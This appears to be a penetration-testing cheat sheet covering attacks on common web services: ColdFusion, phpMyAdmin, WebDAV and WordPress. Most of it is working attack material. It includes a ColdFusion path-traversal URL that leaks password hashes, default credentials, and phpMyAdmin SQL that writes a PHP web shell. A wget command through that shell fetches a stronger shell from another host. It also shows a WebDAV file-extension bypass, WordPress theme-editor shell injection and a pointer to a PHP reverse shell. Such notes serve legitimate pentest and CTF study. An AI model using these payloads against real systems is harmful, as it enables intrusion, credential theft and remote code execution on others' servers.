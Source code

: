 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold.  
[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl  
It will say something like:

```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR

This works for version 8.0.1. So make sure to check the exact version.

```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password.

```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)

neo-security.xml and password.properties

## Drupal

Use droopescan \(note takes a long time!\)

```
droopescan scan drupal -u 10.10.10.9
```

## Elastix

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/)  
default login is  
`admin:admin`

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

Default credentials

```
root <blank>
pma <blank>
```

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:

```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL.

```
Run SQL query/queries on server "localhost":
```

From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.  
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp.

## Webdav

Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:

```
cadaver 192.168.1.101/webdav
```

Then sign in with username and password.  
The default username and passwords on xamp are:

Username: **wampp**

Password: **xampp**

Then use **put** and **get** to upload and download. With this you can of course upload a shell that gives you better access.

If you are looking for live examples just google this:

```
inurl:webdav site:com
```

Test if it is possible to upload and execute files with webdav.

```
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that!  
So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell.

### References

[http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf](http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf)

## Webmin

Webmin is a webgui to interact with the machine.

The password to enter is the same as the passsword for the root user, and other users if they have that right. There are several vulnerabilites for it. It is run on port 10000.

## Wordpress

If viewing the site is weird format wise. Probably due to wordpress using absolute paths instead of relatvie paths. Since hosts names are not in your /etc/hosts file yet. Add the IP and host and it should fix formatting and access to links.

### Enumeration

```
wpscan --url http://TARGEThostname -e vt,tt,u,ap --log wpscan.log

-e: enumerate
-vt: only vulnerable themes
-ap: all plugins
-tt: timthumbs
```

```
wpscan -u http://cybear32c.lab
```

If you hit a 403. That is, the request if forbidden for some reason.  
Read more here: [https://en.wikipedia.org/wiki/HTTP\_403](https://en.wikipedia.org/wiki/HTTP_403)

It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent.  
You can of course also define a specific agent if you want that. But random-agent is pretty convenient.

```
wpscan -u http://cybear32c.lab/ --random-agent
```

### Scan for users

You can use wpscan to enumerate users:

```
wpscan -u http://target --enumerate users
```

### Common Exploitation

```
WordPress Admin Access: Appearance->Editor->404 Template
Navigate to TargetIP/wordpress/wp-content/themes/<name of theme>/404.php

or

if dont want to alert other CTF contestants / not break things
WordPress Admin Access: Appearance->Editor->Theme Header
paste php code after first line (<?php)
Navigate to TargetIP/anysitepagewithwordpressheader or curl
```

Note: My fav php shell is under

```
/usr/share/webshells/php/php-reverse-shell.php
```

from [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

